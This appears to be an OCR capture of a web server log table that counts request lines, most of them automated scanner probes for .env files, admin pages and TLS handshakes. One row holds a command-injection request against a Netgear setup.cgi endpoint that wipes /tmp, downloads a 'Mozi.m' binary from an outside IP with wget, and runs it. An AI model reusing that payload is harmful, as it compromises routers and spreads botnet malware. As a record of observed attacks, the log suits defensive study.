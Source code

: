 | 108 |                     1 | GET /staging.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
| 109 |                     1 | GET /whturk/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
| 110 |                     1 | \x16\x03\x01\x00\xAC\x01\x00\x00\xA8\x03\x03\xAC=\x84LB\xF7\xC3\x96\x1E                                                                                                                                                                                                                                                                                                                                                |
| 111 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x84$\xDE\x97'\x95\xF2\xB9\xD7\xDD$ \x9C\x98\xAB\xD0\x8CU\x9D\x8A9\x99\x1B\xB6\xCF\x5Cu\x03\xE8~\x8B\x13\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                       |
| 112 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xB9\x10\xD4f\x03C0t\x8CQ\xFDN\xB1\xC3M\xA7                                                                                                                                                                                                                                                                                                                                      |
| 113 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xFD\x16\xBCq]!\x05\xE3\xBF\xD4\xA9\xC7\xC8n\xD84\xB3\x9A\xE0\xAF\x8E\xF8\x9B\xE5\x02P\xE7\xCA\x93\xD0\xB6\xDC \xA2\x9B\x10\x0BC\xBB!\xFFn\x07\x0F\x80\x1A\x9AWu\x88\xEA\x17                                                                                                                                                                                               |
| 114 |                     1 | GET /10/index.m3u8 HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                            |
| 115 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.213.82.239:56175/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                          |
| 116 |                     1 | POST /boaform/admin/formLogin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
| 117 |                     1 | GET //admin/config.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
| 118 |                     1 | GET //libs/js/iframe.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
| 119 |                     1 | GET /index.m3u8 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 120 |                     1 | GET /index.m3u8 HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                               |
